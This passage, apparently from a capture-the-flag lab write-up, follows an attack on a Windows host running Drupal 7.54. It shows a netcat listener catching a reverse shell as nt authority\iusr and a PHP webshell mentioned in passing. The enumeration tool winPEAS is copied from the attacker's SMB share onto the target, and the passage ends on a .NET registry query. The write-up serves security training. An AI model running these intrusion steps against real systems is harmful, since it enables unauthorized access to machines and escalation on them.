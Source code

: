 We also get a shell in our listener:

```
└─$ rlwrap nc -nvlp 9999                                                                                   130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:65329.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\iusr

C:\inetpub\drupal-7.54>

```

Notice that we got a shell as a different user this time. This is because we are no longer running the PHP webshell, which was being run under the context of the "drupal" application account. Instead, we are now executing a command on the system, which is using the web user account that runs the web server and not the application on top of it.

### User "nt authority\iusr"

Let's see if we can run "winPEAS" on the target to enumerate the system for weaknesses.

Download and copy "winPEASx64.exe" to the current working directory in Kali.

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

On the target, we can download Winpeas as follows using our SMB share:

```
C:\inetpub\drupal-7.54> copy \\10.10.14.10\SHARE\winPEASx64.exe
        1 file(s) copied.

```

When we try and run it, nothing happens:

```
C:\inetpub\drupal-7.54> .\winPEASx64.exe
C:\inetpub\drupal-7.54>
```

The reason we cannot run it is most likely because the version of ".Net" required is not installed.&#x20;

### .Net Versions

We can check which version/s of ".Net" is installed with the following command:

> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
